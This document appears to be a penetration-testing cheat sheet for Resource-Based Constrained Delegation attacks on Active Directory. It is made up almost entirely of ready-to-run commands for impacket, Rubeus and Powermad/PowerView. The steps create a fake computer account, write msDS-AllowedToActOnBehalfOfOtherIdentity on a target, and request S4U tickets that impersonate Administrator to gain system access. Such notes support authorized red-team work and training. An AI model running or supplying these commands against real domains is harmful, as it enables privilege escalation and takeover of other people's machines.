# Resource-Based Constrained Delegation (RBCD)

### Object: msDS-AllowedToActOnBehalfOfOtherIdentity

## Tools: rbcd.py , rubeus.exe , getST , addcomputer.py

#### 1) addcomputer.py

 - addcomputer.py -computer-name 'COMPUTER_NAME' -computer-pass 'COMPUTER_PASSWORD' -dc-host DC -domain-netbios DOMAIN_NETBIOS 'DOMAIN/USER:PASSWORD' (Add computer account)

#### 2) Rubeus

 - rubeus.exe hash /password:COMPUTER_PASS /user:COMPUTER /domain:DOMAIN

 - rubeus.exe s4u /user:FAKE_COMPUTER$ /aes256:AES_256_HASH /impersonateuser:administrator /msdsspn:cifs/VICTIM.DOMAIN.LOCAL /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:DOMAIN.LOCAL/ptt (System/Admin access)

#### 3) rbcd.py

 - impacket-rbcd -delegate-to 'TARGET$' -dc-ip 'DC' -action 'read' 'domain'/'USER':'PASSWORD' (Try to read the attribute)

 - impacket-rbcd -delegate-from 'COMPUTER$' -delegate-to 'TARGET$' -dc-ip 'DC' -action 'write' DOMAIN/USER:PASSWORD

 - getST.py -spn host/DC_FQDN 'DOMAIN/COMPUTER_ACCOUNT:COMPUTER_PASS' -impersonate Administrator --dc-ip DC_IP (Get TGT ticket)

#### 4) Powermad

 - import-module powermad 

 - New-MachineAccount -MachineAccount FAKE01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose (Create a new computer object)

 - Get-DomainComputer fake01 (Check our newly created computer and get its SID)

### Create a new raw security descriptor for the FAKE01 computer principal

 - $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-2552734371-813931464-1050690807-1154)"

 - $SDBytes = New-Object byte[] ($SD.BinaryLength)

 - $SD.GetBinaryForm($SDBytes, 0)

### Apply the security descriptor bytes to the target machine

 - Get-DomainComputer TARGET_COMPUTER | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

 - (New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0).DiscretionaryAcl (Test if the security descriptor assigned to target computer in msds-allowedtoactonbehalfofotheridentity attribute refers to the fake01$ machine. If yes, we shall see the SID of our created computer)

### Then use Rubeus or getST to impersonate an account on our target computer of our choice
